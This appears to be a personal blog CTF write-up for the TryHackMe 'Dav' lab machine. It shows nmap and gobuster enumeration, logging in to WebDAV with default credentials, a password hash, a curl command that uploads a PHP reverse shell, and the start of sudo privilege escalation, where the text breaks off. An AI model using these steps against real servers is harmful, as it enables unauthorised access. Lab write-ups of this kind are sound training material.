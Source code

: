 ```yaml
---
title: TryHackMe - Dav
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, crack, SUID]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Dav/0.jpeg
    alt: Dav
---
```


# Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

![](/assets/img/try%20hack%20me%20/Easy/Dav/1.png))

### gobuster
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

![](/assets/img/try%20hack%20me%20/Easy/Dav/2.png))

We get this directory known as `/weddav`  
![](/assets/img/try%20hack%20me%20/Easy/Dav/3.png))

Here i need a username and password.  
Did some research and got this default credentials.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/4.png))

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/5.png))

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`
Cracked the hash but got nothing much.  

I searched for web-dav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  

I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
![](/assets/img/try%20hack%20me%20/Easy/Dav/6.png))

Run nc cat on my machine then run the code.  
Got the shell and stabilized it.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/7.png))  


Now it's just a matter of looking for the `user.txt `   
![](/assets/img/try%20hack%20me%20/Easy/Dav/8.png))

# Privilege Escalation
For this i always first run  
- `sudo -l`
- cat `/etc/crontab`

## sudo -l
![](/assets/img/try%20hack%20me%20/Easy/Dav/9.png))  
This was simple since the user can read any file with `sudo` without a password.  